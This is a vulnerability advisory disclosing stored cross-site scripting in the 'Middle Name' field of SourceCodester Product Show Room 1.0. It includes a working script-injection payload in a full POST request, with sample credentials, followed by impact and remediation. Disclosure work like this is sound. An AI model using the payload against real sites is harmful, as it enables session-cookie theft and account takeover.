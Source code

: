 Stored Cross-Site Scripting Vulnerability in SourceCodester Product Show Room 1.0 
:

    Vendor: Sourcecodester
    Product: Product Show Room 1.0
    Product URL: Product Show Room 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Product Show Room 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Middle Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Middle Name
    Severity: High
    Affected URL: /psrs/classes/Users.php?f=save
    Affected Parameter: Middle Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Middle Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Middle Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/psrs/classes/Users.php?f=save

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the Middle name parameter as shown below and send the request to the server.

 ```bash
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
```

 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1CHgwoOWEVzS_upDJSTGQBMdSoVwqKAKQ/view?usp=drive_link
Payload:
```bash
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
```

Request:
```bash
POST /psrs/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------20625722601167454874980765703
Content-Length: 1176
Origin: http://localhost
Connection: close
Referer: http://localhost/psrs/admin/?page=user/manage_user
Cookie: PHPSESSID=ne013b16edsf0e0up00dsppfhb
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="id"


-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="username"

mohit.ahir7086@gmail.com
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="password"

Ramasra1247@
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="type"

1
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream

-----------------------------20625722601167454874980765703--
```
Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Middle Name parameter of /psrs/classes/Users.php?f=save, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
